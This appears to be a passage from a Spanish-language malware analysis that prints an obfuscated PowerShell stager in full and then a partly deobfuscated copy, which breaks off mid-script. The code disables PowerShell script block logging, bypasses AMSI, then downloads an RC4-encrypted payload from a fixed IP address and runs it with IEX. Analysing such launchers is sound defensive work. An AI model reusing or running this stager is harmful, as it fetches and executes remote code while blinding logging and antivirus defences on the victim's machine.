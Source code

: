 ```
If($PSVErSioNTaBLe.PSVErSIoN.MAjor -gE 3){$GPF=[rEf].AsSeMblY.GetTYpE('System.Management.Automation.Utils')."GeTFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');If($GPF){$GPC=$GPF.GeTValUE($NULL);IF($GPC['ScriptB'+'lockLogging']){$GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$Val=[ColLECTionS.GENeric.DIcTiOnarY[STriNG,SystEm.Object]]::NEw();$vAL.ADD('EnableScriptB'+'lockLogging',0);$VAL.AdD('EnableScriptBlockInvocationLogging',0);$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$vAL}ElSe{[ScRIPtBloCk]."GETFIE`lD"('signatures','N'+'onPublic,Static').SetVALUe($nuLl,(New-OBJect COllEcTIONs.GenErIC.HASHSet[sTRInG]))}[REF].AsSEMBLY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeld('amsiInitFailed','NonPublic,Static').SETVALUe($null,$true)};};[SystEM.NeT.SErvicEPOINTManAGeR]::EXPeCt100CoNTinUe=0;$wC=New-ObJecT SYsTem.NET.WeBCLIENt;$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';$WC.HEaDERS.ADd('User-Agent',$u);$wC.PRoxY=[SYsteM.NET.WEbRequest]::DeFAulTWEbPROxY;$wC.Proxy.CREdentIaLs = [SyStEM.NEt.CReDenTiaLCACHE]::DefAultNEtWorkCReDEntiALs;$Script:Proxy = $wc.Proxy;$K=[SYsTEm.TEXT.ENcODinG]::ASCII.GeTBYtEs('fdcece0a22c10f83dccc8f17c95a33d4');$R={$D,$K=$ARGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXOr$S[($S[$I]+$S[$H])%256]}};$ser='http://192.168.6.119:80';$t='/CWoNaJLBo/VTNeWw11212/';$wc.HeADeRs.AdD("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");$Wc.HeaDeRs.Add("Accept-Language","en-en");$WC.HEADErS.AdD("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");$DAtA=$WC.DOWnlOADDAtA($SEr+$T);$iv=$datA[0..3];$Data=$DATa[4..$DATA.LENgTh];-jOiN[ChaR[]](& $R $Data ($IV+$K))|IEX
```

Este es el mismo script, pero eliminé algunas ofuscaciones para obtener una mejor vista:

```
If($PSVErSioNTaBLe.PSVErSIoN.MAjor -gE 3)
{
	$GPF=[rEf].AsSeMblY.GetTYpE('System.Management.Automation.Utils')."GeTFieLd"('cachedGroupPolicySettings','NonPublic,Static');
	If($GPF)
	{
		$GPC=$GPF.GeTValUE($NULL);
		IF($GPC['ScriptBlockLogging'])
		{
			$GPC['ScriptBlockLogging']['EnableScriptBlockLogging']=0;
			$GPC['ScriptBlockLogging']['EnableScriptBlockInvocationLogging']=0
		}
		$Val=[ColLECTionS.GENeric.DIcTiOnarY[STriNG,SystEm.Object]]::NEw();
		$vAL.ADD('EnableScriptBlockLogging',0);
		$VAL.AdD('EnableScriptBlockInvocationLogging',0);
		$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']=$vAL
	}
	ElSe
	{
		[ScRIPtBloCk]."GETFIElD"('signatures','NonPublic,Static').SetVALUe($nuLl,(New-OBJect COllEcTIONs.GenErIC.HASHSet[sTRInG]))
	}
	[REF].AsSEMBLY.GEtTypE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIeld('amsiInitFailed','NonPublic,Static').SETVALUe($null,$true)};
};
[SystEM.NeT.SErvicEPOINTManAGeR]::EXPeCt100CoNTinUe=0;
$wC=New-ObJecT SYsTem.NET.WeBCLIENt;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$WC.HEaDERS.ADd('User-Agent',$u);
$wC.PRoxY=[SYsteM.NET.WEbRequest]::DeFAulTWEbPROxY;
$wC.Proxy.CREdentIaLs = [SyStEM.NEt.CReDenTiaLCACHE]::DefAultNEtWorkCReDEntiALs;
$Script:Proxy = $wc.Proxy;
$K=[SYsTEm.TEXT.ENcODinG]::ASCII.GeTBYtEs('fdcece0a22c10f83dccc8f17c95a33d4');
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
```